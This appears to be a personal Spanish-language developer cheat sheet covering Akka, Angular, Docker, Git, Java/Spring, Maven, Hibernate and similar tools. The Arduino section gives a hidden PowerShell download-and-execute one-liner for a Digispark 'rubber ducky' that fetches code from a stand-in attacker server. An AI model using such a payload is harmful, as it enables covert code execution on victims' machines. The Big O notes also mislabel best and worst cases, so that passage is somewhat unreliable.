


Table of Contents
=================

- [Access Manager](#access-manager)
- [Akka](#akka)
- [Angular](#angular)
- [Arduino](#arduino)
- [Ansible](#ansible)
- [AWS](#aws)
- [Big O](#big-o)
- [CSS](#css)
- [Docker](#docker)
  * [Docker Compose](#docker-compose)
- [Electron](#electron)
- [ELK](#elk)
- [Firebase](#firebase)
- [Github](#github)
- [Go](#go)
- [HTML](#html)
- [Ionic](#ionic)
- [Java](#java)
  * [Logging](#logging)
    + [MDC](#mdc)
  * [AOP - Programación Orientada a Aspectos](#aop---programacion-orientada-a-aspectos)
  * [Architect](#architect)
  * [Hibernate](#hibernate)
  * [Kerberos](#kerberos)
  * [Maven](#maven)
    + [M2](#m2)
      - [Encriptación de password](#encriptacion-de-password)
  * [Metrics](#metrics)
  * [Spring](#spring)
    + [Spring Security](#spring-security)
    + [Reactive Programming](#reactive-programming)
    + [Spring Cloud](#spring-cloud)
  * [Streams](#streams)
  * [Testing](#testing)
    + [Rest assured](#rest-assured)
    + [Gatling](#gatling)
    + [JMeter](#jmeter)
  * [Tomcat](#tomcat)
- [Javascript](#javascript)
  * [Promises](#promises)
  * [NodeJS](#nodejs)
- [Kafka](#kafka)
- [Kubernetes](#kubernetes)
- [Linux](#linux)
  * [Comprimir / Descomprimir](#comprimir--descomprimir)
- [Machine Learning](#machine-learning)
- [Patrones de diseño](#patrones-de-diseno)
- [Protocolos](#protocolos)
- [Protocol Buffers](#protocol-buffers)
- [Python](#python)
- [React](#react)
  * [Redux](#redux)
  * [Testing](#testing-1)
- [Redes](#redes)
- [Redis](#redis)
- [Regex](#regex)
- [Scala](#scala)
  * [Classes](#classes)
  * [Objects](#objects)
  * [Option](#option)
  * [Funciones](#funciones)
    + [Funciones anónimas](#funciones-anonimas)
    + [High Order Function](#high-order-function)
    + [Currying](#currying)
    + [Partial Functions](#partial-functions)
  * [Exceptions](#exceptions)
  * [Patter Matching](#patter-matching)
  * [Traits](#traits)
  * [For comprehension](#for-comprehension)
  * [Infix type](#infix-type)
  * [Either](#either)
  * [Collections](#collections)
    + [Array / Sequence](#array--sequence)
    + [Lists](#lists)
    + [Maps](#maps)
    + [Set](#set)
    + [Tuplas](#tuplas)
- [Selenium](#selenium)
- [SQL](#sql)
  * [Ejemplos](#ejemplos)
    + [Parsear XML](#parsear-xml)
    + [Filtrar por Fecha](#filtrar-por-fecha)
    + [Cantidad de caracteres en una columna](#cantidad-de-caracteres-en-una-columna)
    + [Count](#count)
    + [Concatenar](#concatenar)
    + [Concatenar Lista](#concatenar-lista)
    + [Time Zone](#time-zone)
    + [Función](#funcion)
    + [Union](#union)
- [SSL Certificates](#ssl-certificates)
- [Vagrant](#vagrant)
- [WebRTC](#webrtc)
- [Windows](#windows)
  * [Red](#red)
- [General](#general)

# Access Manager

*   Resource Owner habilita el grant_type password
*   Microfocus - Cuando probas grant_type password no devuelve id_token
*   Llamar al endpoint de userinfo para desencriptar el access_token
*   Si uso grant type password no genera una sesión en el access manager, si te devuelve un token

# Akka

Akka es un modelo de actores

*Akka Actors* / Streams / Cluster (Cluster de aplicaciones, programación distribuida) / Persistence (Para guardar el estado del actor en base de datos) / Management (Helpers de integracion, ej con kubernetes) / http (Server para armar API Rest - Play 2.6) / Alpakka (Patrones de integración -> Apache Camel)

Quien usa Akka - Tesla, Twitter, Fornite, LinkedIn, Paypal, Intel, Samsung, Starbucks

Actor

- Es persistente, cuando instancias un actor sigue viviendo por mas que termine su funcion, para darlo de baja hay que matarlo o detener la aplicaciones

- Encapsula un estado interno, si no tenes un estado quizas no necesites un actor

- Es asincronico

- Ocupa muy poco espacio en memoria

Que hace

- Puede crear otros actores

- Recibir y responder mensajes

- Procesa un solo mensaje a la vez

Mailbox, cola de mensajes que procesa el actor, cada instancia tiene su mailbox

Actor system, genera una estructura

                System Guardian (Interno de akka)

Root Guardian  

                User Guardian (Lo que nosotros creamos)

Se debe definir (override) el metodo receive 

Para crear un actor se necesita un ActorSystem, para cada funcionalidad, por ejemplo 1 para pagos y otro para notificaciones.

En estructura de micro servicios con un actor es suficiente

val system: ActorSystem = ActorSystem("Akka")

val printer: ActorRef = system.actorOf(Props[Print] / Props(new Print()), "printActor")

printer ! "Hello World!" -> le pasas el mensaje, puede ser una clase, un objeto o cualquier cosa

tell(!) - No devuelve nada, se puede usar dentro o fuera de un actor

asK(?) - devuelve un future, se puede usar dentro o fuera de un actor

forward - hace un forward a otro actor

pipeTo - El resultado cuando se complete un future se lo va a mandar a un actor (Ej: future.pipeTo(printer))

para crear hijos se utiliza el context.actorOf(Props[Child], "child") - context es el actor padre

# Angular

npm install --save-dev @angular/cli@latest -> CLI version

ng update @angular/cli --migrate-only --from=1.3.2 (o version que este de CLI) / Error: The serve command requires to be run in an Angular project, but a project definition could not be found

ng update @angular/compiler-cli --force - Error: compiler_cli_1.readConfiguration is not a function

ng generate component | class | etc

ngNativeValidate -> Para forms de los que se quiera usar las validaciones de html5

ng generate component / class 

ng build --prod

lo que esta entre comillas es el objeto del componente y lo que esta entre parentesis el input del otro

Forms

si le pongo ngModel al input es necesario que tenga el atributo name

si pongo un div con ngModelGroup los campos que esten  abajo van a ser hijos en el json

ngModel es para tomar los valores del form y [ngModel]="" es para escribir en el formulario valores

si cambio un valor del formulario solo lo veo en el ngModel y no en el [ngModel] para eso hay que poner [(ngModel)]

Blur - ng-touched / ng-untouched

Change - ng-dirty / ng-pristine

valida el valor, por ejemplo si tiene el required	- ng-valid / ng-invalid

@input() -> atributo de la clase

npm i firebase angularfire2

ng serve --host=0.0.0.0 --disableHostCheck=true

Rejected request from RFC1918 IP to public server address

I have to add the NAT Forwarding entry in my router to forward the port 80 request to my local IP Address, and that solved the issue.

# Arduino

Rubber ducky - digispark

[http://digistump.com/wiki/digispark/tutorials/connecting#using_the_digispark_with_the_arduino_ide](http://digistump.com/wiki/digispark/tutorials/connecting#using_the_digispark_with_the_arduino_ide)

"powershell.exe -W Hidden -C iex (new-object net.webclient).downloadstring('attacker_server')"

# Ansible

playbook.yml

--- (comienzo de script)

-name: name

hosts: targetNode (sale del inventory)

tasks:

	-name: taskName

	yum:

		name: apache

		state: present

	-name: secondTaskName

	service:

		name: apache

		state: start

		

		

Inventory

[webserver]

web1.machine

web2.machine

[databaseserver]

db1.machine

Ansible Galaxy is Ansible’s official community hub for sharing Ansible roles. A role is the Ansible way of bundling automation content and making it reusable.

# AWS

Formas simples de ahorrar dinero en AWS:

- Utilizar Reserved Instances y/o Savings Plans

- Revisar con cuidado el Cost Explorer a ver si descubrimos algún recurso sin uso como volúmenes EBS que olvidamos borrar

- Apagar el entorno de desarrollo a la noche y los fines de semana

Formas un poquito más avanzadas:

- Utilizar NAT Instances en vez de NAT Gateways en entornos no críticos

- Shared services VPC

- Cache por todos lados (y en particular cache locales en cada región)

# Big O

¿Qué es la notación Big O?

La notación Big O es uno de esos temas que todos deberíamos de conocer como Ingenieros de Software, sin embargo en ocasiones puede resultar confuso o no necesario porque -qué importa, mi código ya funciona!.

Probablemente dije eso más de una vez y después de encontrarme ese tema en múltiples ejercicios de entrevistas de trabajo de empresas Oracle o Uber finalmente decidí estudiar y recopilar información acerca del mismo. En este post discutiremos Big O junto con algunos de los ejemplos más comunes.

Definición

La notación Big O es la representación relativa de la complejidad de un algoritmo.

¿Qué significa?

representación: Big O trata de simplificar la comparación entre algoritmos a una sola variable

relativa: esta comparación solo tiene sentido si se trata de algoritmos similares, no sirve de mucho comparar un algoritmo de búsqueda con un algoritmo de ordenamiento.

complejidad: ¿cómo se comporta el algoritmo cuando la entrada de datos aumenta?, ¿necesita más memoria? ¿necesita más tiempo?

Diferentes complejidades

Diferentes complejidades

En la siguiente sección veremos diferentes complejidades para los algoritmos, esta no es una lista exhaustiva, pero contiene las complejidades más habituales.

O(1) Complejidad Constante

Significa que la cantidad de datos es irrelevante para el algoritmo, siempre va a tardar el mismo tiempo en terminar. Lamentablemente es difícil que un algoritmo no trivial caiga en esta categoría.

Items	Tiempo

1	k segundos

10	k segundos

100	k segundos

Asumiendo que k es una cantidad constante

Ejemplos

–Acceder al elemento de un arreglo

–Insertar en elemento en una lista ligada

–Añadir o sacar un elemento de una pila

O(log n) Complejidad Logarítmica

En este caso el tiempo incrementa conforme aumenta el número de elementos, pero de forma logarítmica por lo que para grandes cantidades de datos el tiempo es relativamente corto.

Items	Tiempo

1	1 segundo

10	2 segundos

100	3 segundos

1000	4 segundos

10000	5 segundos

Ejemplos

–Búsqueda binaria

–Encontrar menor/mayor elemento en un árbol binario de búsqueda

–Algunos algoritmos Divide y Vencerás

Divide y Vencerás

O(n) Complejidad Lineal

¿Vas a incrementar la cantidad de elementos? Seguro, pero el tiempo va a incrementar de forma proporcional.

Items	Tiempo

1	1 segundo

10	10 segundos

100	100 segundos

Ejemplos

–Recorrer un arreglo o lista ligada

–Búsqueda lineal

–Comparar dos cadenas

O(n log n)

Esta es una combinación de las dos anteriores, es común encontrar varios algoritmos de ordenamiento en esta categoría.

Items	Tiempo

1	1 segundo

10	20 segundos

100	300 segundos

Ejemplos

–Merge Sort

–Heap Sort

–Quick Sort

O(n^2) Complejidad Cuadrática

La cantidad de tiempo que tarda el algoritmo comienza a dispararse, no es muy eficiente con una gran cantidad de datos.

Items	Tiempo

1	1 segundo

10	100 segundos

100	10000 segundos

Ejemplos

–Bubble sort

–Selection sort

–Iterar un arreglo de 2 dimensiones

Consideraciones

Ahora veamos qué sucede cuando un algoritmo no se representa exactamente en una de las categorías anteriores, por ejemplo: O(n + 2)

Aquí sólo nos interesa O(n), porque conforme el número de elementos aumente la constante 2 será cada vez más insignificante.

Lo mismo ocurriría con una complejidad como O(n^2 + 2n + 1). Donde solo tomamos en cuenta la potencia más grande O(n^2)

Al analizar un algoritmo existen tres casos comunes:

–Mejor caso (best case)

–Caso promedio (average case)

–Peor caso (worst case)

Generalmente el más representativo es el peor caso porque nos indica la categoría de complejidad más alta de un algoritmo, para entender esto considera un algoritmo de búsqueda lineal, su complejidad es O(n) por lo tanto en el peor de los casos tenemos que recorrer todo el arreglo, en el caso promedio solo la mitad de elementos O(n/2), y en el peor de los casos el primer elemento es el que buscamos O(1).

¿Por qué es importante?

Con el poder computacional que tenemos hoy en día un algoritmo que tenga como entrada un grupo de datos pequeño o mediano puede terminar en un tiempo aceptable, sin embargo si no analizamos su complejidad no estaremos seguros si el algoritmo funcionará con un grupo de datos grande (como algunos millones de datos).

A la capacidad de un algoritmo de manejar correctamente un aumento continuo de entradas se le llama escalabilidad.

Por ejemplo, supongamos que has desarrollado dos algoritmos de ordenamiento y quieres comparar su tiempo de ejecución, a cada uno le das una entrada de 1000 elementos y el algoritmo 1 (A1) tarda 5 segundos, mientras que el algoritmo 2 (A2) tarda 9 segundos. ¿Es mejor el algoritmo 1? Tal vez, pero aún no podemos estar tan seguros.

Después de analizar su complejidad resulta que el A1 es n log n y el A2 es log n, en un principio tal vez A2 sea más lento, pero cuando el número de elementos sea lo suficientemente grande A2 será más rápido que A1, es decir, va a escalar mejor.

Conclusión

El análisis de la complejidad de un algoritmo debe ser una habilidad básica de cualquier desarrollador porque permite escribir programas que son más eficientes y escalables a largo plazo.

Una buena forma de practicar es revisar código escrito por nosotros mismos o por alguna biblioteca y tratar de obtener la complejidad de métodos o funciones, también la próxima vez que hagamos un programas nos podemos detener unos minutos para analizarlo.

# CSS

The content-visibility has three values we can use:

visible (no effect, basically how it was before)
hidden (a mix between display: none and visibility: hidden, it starts on display hidden, afterwords becomes visibility hidden)
auto (This is the one we are looking at. It will only render this element once the browser needs it!)

.element {
    content-visibility:auto;
}

# Docker

No es necesario realizar el build, simplemente ejecutar el run

restar:always - levanta el container al reiniciar el host

https://code-maze.com/ci-jenkins-docker/

*   docker pull tomcat -> descarga la imagen
*   docker images -> lista las imagenes
*   docker ps -> contenedores que estan corriendo
*   docker -> run --name tomcat8080 -d tomcat -> levantar docker
*   docker run --name tomcat8080 -p 8080:8080 -d tomcat
*   docker exec -it <container name> /bin/bash

## Docker Compose

*   docker-compose logs - ver logs
*   docker-compose up/down

# Electron

// Generar .exe

electron-packager . — overwrite

// Correr aplicacion java

var jarPath = app.getAppPath() + ‘\\student-portal-api.jar’;

var child = require(‘child_process’).spawn( ‘java’, [‘-jar’, jarPath, ‘’] );

var kill = require(‘tree-kill’);

kill(child.pid);

# ELK

sysctl -w vm.max_map_count=262144

docker pull sebp/elk

docker run -p 5601:5601 -p 9200:9200 -p 5044:5044 -it --name elk sebp/elk

https://elk-docker.readthedocs.io/

docker-compose

elk:

  image: sebp/elk

  ports:

    - "5601:5601"

    - "9200:9200"

    - "5044:5044"

docker-compose up elk

filebeat

docker pull docker.elastic.co/beats/filebeat:7.5.1

docker run docker.elastic.co/beats/filebeat:7.5.1 setup -E setup.kibana.host=ip:5601 -E output.elasticsearch.hosts=["ip:9200"]

# Firebase

ng build --prod

npm install -g firebase-tools

firebase login

firebase init

agregar key target en el firebse.json

firebase target:apply hosting buenaSonrisa buenasonrisa

firebase deploy --only hosting

# Github

Merge

Note that you always merge some branch into the one you're currently at.

As we've already checked out master, we can now git merge change_alice.

git log
git log --oneline # more succinct output
git log --graph # with a visual graph of branches

git reflog # reflog is basically your safety net after running "scary" commands like git rebase

git diff branch1..branch2

git switch branch-name     # new syntax (as of Git 2.23)
git checkout branch-name   # old syntax

git switch - 			   # go back to the branch I was on

git reset --hard HEAD      # This will reset your local directory to match the latest commit and discard unstaged changes
git reset --hard HEAD~1    # undo the last commit and rewrite history

git restore <filename>     # new syntax (as of Git 2.23)
git checkout -- <filename> # old syntax

find which commit caused a bug
git bisect start
git bisect bad           # Current version is bad
git bisect good v1.1     # v1.1 is known to be good

This will delete all merged branches that you have locally except for master or developer:

git branch --no-color --merged | command grep -vE "^(\+|\*|\s*(master|develop)\s*$)" | command xargs -n 1 git branch -d

diferencia entre svn y git

svn es centralizado

# Go

go build file.go -> genera un ejecutable

go run file.go -> ejecuta

var bool = false

var int = 0

var string = ""

var := value (sabe que tipo de variable es)

strconv - .Itoa (parse int to string) / .Atoi (parse string to int)

cuando una funcion devuelve mas de un valor (por ejemplo Atoi) se puede agregar la segunda variable como '_' lo cual indica que esa variable no va a ser utilizada

value,_ := strconv.Atoi("22");

In Go names starting with a capital letter are public, names with a lowercase letter are private

# HTML

datalist - Dropdown with searchable text

details - Expand/collapse details - 
 y 
 - el summary muestra el texto previo a abrir y el p el texto complet

inputmode, permite pattern, para number permite maxlength:
	<input type="text" inputmode="email / numeric / decimal / search" />

colorpicker:
	<input type="color" value="#e0ffee" id="colorPicker">

contenido editable:

	

		You can edit me...and add as much ye wish!
	

# Ionic

ionic start "appName" tabs / blank (--no-git)

ionic cordova run android --device | ionic capacitor run android -l --external

ionic cordova build android

ionic cordova platform remove android

ionic cordova platform add android

ionic cordova resources --icon

ionic cordova resources --splash

npm install @angular/fire firebase --save

ionic serve --external --disableHostCheck

audio

ionic cordova plugin add cordova-plugin-nativeaudio

npm install @ionic-native/native-audio

Notifications

https://github.com/katzer/cordova-plugin-local-notifications

ionic cordova plugin add cordova-plugin-local-notification

npm install @ionic-native/local-notifications

npm install chart.js --save

platform.ready()

Cordova Android duplicated uses-feature from two plugins

Go to cordova-plugin-qrscanner->plugin.xml

comment out or remove content of the section

<config-file target="AndroidManifest.xml" parent="/*">

para instalar mas de una aplicacion ionic en el celular cambiar en el config.xml el id del widget

<preference name="ShowSplashScreenSpinner" value="false"/>

platform/android/app/build.gradle

    defaultConfig{
	multiDexEnabled true
    }

platforms/android/app/src/main/androidmanifest.xml

android:windowSoftInputMode="adjustResize">

ionic serve --all

git push ionic master

si er_address_unrecheable -> firewall

    console.log(this.screenOrientation.type);
    this.screenOrientation.onChange().subscribe(
      () => {
        console.log("Orientation Changed " + this.screenOrientation.type);
        this.orientation = this.screenOrientation.type;
      }
    );

# Java

*   JME – Mobile (GPS, Tablets, Celulares)
*   JSE – Desktop
*   JEE – Aplicación Web

InstaceOf → Saber si pertenece a una determinada clase

JavaFX – Scene Builder

clase custom para excepcion tiene que heredar de exception -> extends exception

ex.printStackTrace();

exception.getMessage("mensaje de error") -> parte del stackTrace

runtime -> exception del desarrollador -> uncheck

integer puede ser null

public enum Day {
  SUNDAY, MONDAY, TUESDAY, WEDNESDAY, THURSDAY, FRIDAY, SATURDAY
}

EnumHandler firstDay = new EnumHandler(Day.MONDAY);
firstDay.tellItLikeItIs();
public void tellItLikeItIs() {
switch (day) {
   case MONDAY:
	  System.out.println("Mondays are bad.");
	  break;
	 case FRIDAY:
	   System.out.println("Fridays are better.");
	   break;
	 case SATURDAY:
	 case SUNDAY:
	   System.out.println("Weekends are best.");
	   break;
	 default:
	   System.out.println("Midweek days are so-so.");
	   break;
 }

OP1 && OP2  # Restrictivo: Si OP1 es FALSE, no se validará el OP2
OP1 || OP2

OP1 & OP2   # Valida el segundo OP por mas que el primero sea FALSE
OP1 | OP2                                          

Accesibilidad

   • Public

   • Private

   • Abstract

   • Virtual

   • Protected

       ◦ Paquete

       ◦ Herencia

   • Default / Package → Para clases del paquete

Final

   • Clase hija no puede sobreescribirlo

   • Constante

Collection → Interfaz (Colecciones: Agrupaciones de datos)

   • Set

       ◦ No indices

   • List

       ◦ Indices

   • Queue

       ◦ Trabaja sobre las puntas

   • Map

       ◦ Si, son colecciones pero no implementan de la clase collection

       ◦ llave / valor (C# → Diccionario)

Inyección de dependencias -> polimorfismo a través de un contexto

CommandLineRunner es para correrlo como app de escritorio

@Configuration -> se ejecutan todos los que tengan la annotation @Bean -> todo lo que retornen se carga en el contexto

@Bean (name = "nombre")

Frameworks

*   dropwizard
*   spark
*   primefaces - framework de vistas

@JsonProperty("valor")

@Transactional ()

<properties>

    <failOnMissingWebXml>false</failOnMissingWebXml>

</properties>

TroubleShooting

Class is managed, but is not listed in the persistence.xml file

If you are using Eclipse:(1) Select: (Your Project) -> Properties -> JPA; (2) Look for "Persistent class management" and select the option "Discover annotated classes automatically"; (3) Press "Apply".

JavaHL

Select Window >> Preferences

Expand Team >> SVN

Under SVN interface set Client to SVNKit (Pure Java) SVNKit....

Deshabilitar warnings de js

Right-click your project.

Navigate to: Properties → JavaScript → Include Path

Select Source tab.

Expand JavaScript source folder.

Highlight Excluded pattern.

Press the Edit button.

Press the Add button next to Exclusion patterns box.

You may either type Ant-style wildcard pattern, or click Browse button to mention the JavaScript source by name.

Reflection

Poder inspeccionarse e interactuar consigo mismo

Metamodelo

Java.lang.reflect

Retention (retentionpolicy.runtime)

@interface

Htmlgenerator.run

GetClass().getAnnotation - > reflection

Actuator - Todas las Environment propiedades bajo la info.* clave se exponen automáticamente. Por ejemplo, podes agregar las siguientes configuraciones a tu application.properties

import org.springframework.core.io.Resource;

@Value("classpath:items.graphql")

Resource schemaResource;

@ConditionalOnProperty(prefix = "spring.social.", value = "auto-connection-views") 

The annotation is used to conditionally create a Spring bean depending on the configuration of a property. In the usage you've shown in the question the bean will only be created if the spring.social.auto-connection-views property exists and it has a value other than false. This means that, for this View bean to be created, you need to set the spring.social.auto-connection-views property and it has to have a value other than false.

Optional

Create Optional object > Optional.of(<algo no nulo>) / Optional.ofNullable(<algo nulo>);

    String name = Optional.ofNullable(nullName).orElse("john");

optional.ifPresent(name -> System.out.println(name.length()));

    Integer year = 2016;

    Optional<Integer> yearOptional = Optional.of(year);

    boolean is2016 = yearOptional.filter(y -> y == 2016).isPresent();

    Optional<String> found = Stream.of(getEmpty(), getHello(), getBye()) //Metodos creados anteriormente para retornar optional

      .filter(Optional::isPresent)

      .map(Optional::get)

      .findFirst();

Lazy Initialization: When lazy initialization is enabled, beans are created as they are needed rather than during application startup

spring.main.lazy-initialization=true

If you want to disable lazy initialization for certain beans while using lazy initialization for the rest of the application, you can explicitly set their lazy attribute to false using the @Lazy(false) annotation

Dispatcher es el encargado de enviar las solicitudes a los controladores adecuados

Loggear body de RestTemplate

[https://www.baeldung.com/spring-resttemplate-logging](https://www.baeldung.com/spring-resttemplate-logging)

StringTokenaizer

https://www.javatpoint.com/string-tokenizer-in-java

Encontrar palabra más repetida

https://www.java67.com/2015/10/java-program-to-find-repeated-words-and-count.html

Para funcionar como una clase JavaBean, una clase debe obedecer ciertas convenciones sobre nomenclatura de métodos, construcción y comportamiento.

Estas convenciones permiten tener herramientas que puedan utilizar, reutilizar, sustituir y conectar JavaBeans.

Las convenciones requeridas son:

Debe tener un constructor sin argumentos.

Sus atributos de clase deben ser privados.

Sus propiedades deben ser accesibles mediante métodos get y set que siguen una convención de nomenclatura estándar.

Debe ser serializable.

Con java el escalado horizontal hay que realizarlo antes de llegar a niveles altos de CPU ya que le quita recursos a los servicios que ya estan funcionando

Lectura de JSON on Spring Init

    @EventListener(ApplicationReadyEvent.class)
    public void loadUsers() throws JsonParseException, JsonMappingException, IOException {
	
        ClassPathResource resource = new ClassPathResource("users.json");
        
		if (this.userRepository.count() == 0 && resource.exists()) {
            userService.loadUsersFromFile(resource.getInputStream());
        }
    }

	public void loadUsersFromFile(InputStream inputStream) throws JsonParseException, JsonMappingException, IOException {
        ObjectMapper objectMapper = new ObjectMapper();
        List<User> users = objectMapper.readValue(inputStream, new TypeReference<List<User>>(){});        
        for (User user : users) {
            userRepository.save(user);
        }
    }

	---------------------------------------------------------------

	public User getUserInfo(String PPID) throws JsonParseException, JsonMappingException, IOException {
		return objectMapper.readValue(new File(usersJsonPath + PPID + ".json"), User.class);
	}

	public Object getClaims() throws JsonParseException, JsonMappingException, IOException {
		return objectMapper.readValue(this.getClass().getClassLoader().getResource("getClaims.json"), Object.class);
	}

Nunca usen "\" o "/" para concatenar directorios o directorios y files. Para esto está la variable "File.separator" que pone la correcta según el SO.

MicroServicios - http://enmilocalfunciona.io / @nullp0int3r

Config Service - Servicio de configuración centralizada, versionarla y provisionarla - Spring Cloud Config

	Recomendable utilizar Spring Retry

	Habililitar @EnableConfigServer en el main

	Hace un Pull del repositorio donde tiene la configuración de los servicios

	Este DNS no es dinámico

	Properties

		Puerto, Nombre, perfil -> listado de perfiles (Github, Docker, Local)

	@RefreshScope -> Permite que cuando hay un cambio en la configuracion (Github) el Config Service se entere mediante la llamada a un endpoint (WebHook) y le avise al servicio principal

Discovery Service - Para el registro de servicios, guardar los endpoints dinámicamente - Eureka

	Habilitar @EnableEurekaServer en el main

	Se registran por la property spring.application.name, debe ser único por service

Load Balancing - Balanceo entre los servicios - Ribbon

	RestTemplate con annotation @LoadBalanced

Circuit Breaker - Mecanismo de tolerancia a fallos - Hystrix

	Habilitar @EnableCircuitBreaker

	@HystrixCommand, definirle un fallback

Edge Service - API Gateway (Se va a encargar del balanceo) - Zuul

	Habilitar @EnableZuulProxy

Monitoring - Hystrix Dashboard + Turbine - En entorno productivo es recomendable tenerlos separados

	@EnableHystrixDashboard

	@EnableTurbine (Se encarga de mostrar todos los microservicios) / @EnableTurbineStream

	

	Spring Cloud Sleuth - Sirve para agregar en la cabecera a cual instancia del servicio se esta llamando

Log Management

Security

## Logging

### MDC

[https://www.baeldung.com/mdc-in-log4j-2-logback](https://www.baeldung.com/mdc-in-log4j-2-logback)

## AOP - Programación Orientada a Aspectos

Se utiliza para elementos transversales, lo que quiere decir para poder re utilizar codigo ante ciertos metodos o tipos de objetos. Ejemplos de usos: Logs (tanto errores como comunes), verificacion de permisos

    /**
     * Advice that logs when a method is entered and exited.
     *
     * @param joinPoint join point for advice.
     * @return result.
     * @throws Throwable throws {@link IllegalArgumentException}.
     */

    @Around("applicationPackagePointcut() && springBeanPointcut()")
    public Object logAround(ProceedingJoinPoint joinPoint) throws Throwable {

        Logger log = logger(joinPoint);

        if (log.isDebugEnabled()) {
            log.debug("Enter: {}() with argument[s] = {}", joinPoint.getSignature().getName(), Arrays.toString(joinPoint.getArgs()));
        }

        try {
            Object result = joinPoint.proceed();
            if (log.isDebugEnabled()) {
                log.debug("Exit: {}() with result = {}", joinPoint.getSignature().getName(), result);
            }

            return result;

        } catch (IllegalArgumentException e) {
            log.error("Illegal argument: {} in {}()", Arrays.toString(joinPoint.getArgs()), joinPoint.getSignature().getName());
            throw e;
        }
    }

aspect, la clase, Pointcut para definir ante que objetos (es un metodo sin implementacion) y Around para la implementacion de dicho metodo)

http://www.jtech.ua.es/j2ee/publico/spring-2012-13/apendice_AOP-apuntes.html

## Architect

Maven

	simplifica las tareas del bin -> compilar, empaquetar, documentar, automatizar ciertas tareas y nos brinda una estructura común

	

XML

	bien formado
		que los nodos se abran y se cierren  
		
	validado
		que tenga un xsd
		o un documento de esquema que valide la estructura

		

Diferencia entre Gradle y Maven: Gradle utiliza groovy
	

paquetes

	evitar la colision de nombres y categorizar

groupid

	es el propietario

pom.xml

	project -> xsd -> valida el xml

	

classpath

	ubicacion donde le indicamos a la maquina virtual que busque las clases que va a utilizar nuestra aplicacion

	

resources -> classpath

dependencias

	scope me define el alcance de la dependencia

		provided

			alcance en main y test pero cuando la compiles no la coloca en el classpath

		compile (default)

			alcance en main y test, son colocadas en el classpath cuando compilas

		test

			no se visibilizan en el main

		runtime

			alcance main y test, no se va a utilizar en tiempo de compilacion, simplemente en tiempo de ejecución

Serializar

	convertir objetos que estan en memoria en texto

	
Lombok

	Te genera getter, setter, contructor

	
En caso de tirar error al compilar, verificar que se encuentre el plugin

@Data = {@Getter, @Setter, @NoArgsConstructor, @AllArgsConstructor}

base de datos nosql

documents -> json -> MongoDB / couchdb / elasticsearch

map/dictionaries -> redis / DinamoDB (amazon) 

graphos (redes sociales) -> Neo4J

columns (family column) -> Cassandra / HBASE

ide studio3t

Modulos Maven

	es para que multiples proyectos utilicen las mismas dependencias ( es para usar el parent en el pom )

	
AAA

*   Arrange -> Objeto y variable esperada
*   Act -> ejecucion de prueba
*   Assert -> chequeo el valor esperado vs el recibido

@RunWith

@SpringBootTest(webEnvironment = SpringBootTest.WebEnvironmente.NONE, classes = MongodbConfiguration.class)

Arquitectura de software

@Controller -> Se usa cuando una aplicacion tiene UI

ActiveMQ -> Mensajeria asincrona

serverless -> aws lamda containers

## Hibernate

Hibernate Proxy is used to substitute an actual entity POJO (Plain Old Java Object).

The Proxy class is generated at runtime and it extends the original entity class. // A proxy will be a subclass of the field type that is required

Hibernate uses Proxy objects for entities is for to allow lazy loading.

When accessing basic properties on the Proxy, it simply delegates the call to the original entity.

Every List, Set, Map type in the entity class is substituted by a PersistentList, PersistentSet, PersistentMap. These classes are responsible for intercepting a call to an uninitialized collection.

The Proxy doesn't issue any SQL statement. It simply triggers an InitializeCollectionEvent, which is handled by the associated listener, that knows which initialization query to issue (depends on the configured fetch plan).

https://dzone.com/articles/java-dynamic-proxy

Hibernate loads eagerly fetched associations when it loads an entity. E.g., when Hibernate loads a Author entity, it also fetches the associated Book entity. That requires an additional query for each Author and often accounts for dozens or even hundreds of additional queries.

This approach is very inefficient and it gets even worse when you consider that Hibernate does that whether or not you will use the association. Better use FetchType.LAZY instead. It delays the initialization of the relationship until you use it in your business code. That avoids a lot of unnecessary queries and improves the performance of your application.

Luckily, the JPA specification defines the FetchType.LAZY as the default for all to-many associations. So, you just have to make sure that you don’t change it. But unfortunately, that’s not the case for to-one relationships.

hakariCP como de los mejores pool managers

Ibatis and Hibernate are quite different beasts.

The way I tend to look at it is this: Hibernate works better if your view is more object-centric. If however you view is more database-centric then Ibatis is a much stronger choice.

If you're in complete control of your schema and you don't have an extremely high throughput requirement then Hibernate can work quite well. The object model makes for fairly convenient code but at a huge complexity cost.

If you're dealing with a "legacy" database schema where you need to write fairly complicated SQL queries then chances are Ibatis will work better.

The reason is that you're trying to do one of two things typically:

Create/Update/Delete some complex domain entities

Run analytic fetch queries (i.e. summation/aggregation queries)

Hibernate works well for case 1 allowing you to just make a POJO and persist/update it. It also does this quickly, unless your domain is quite large.

myBatis is great for fetch queries (case 2) where you just want an answer. Hibernate would attempt to load the entire object graph and you'd need to start tuning queries with LazyLoading tricks to keep it working on a large domain. Conversely if you just want some analytic POJO page, the myBatis implementation of the same query would be trivial.

Because of this, myBatis is faster than Hibernate at SELECTS.

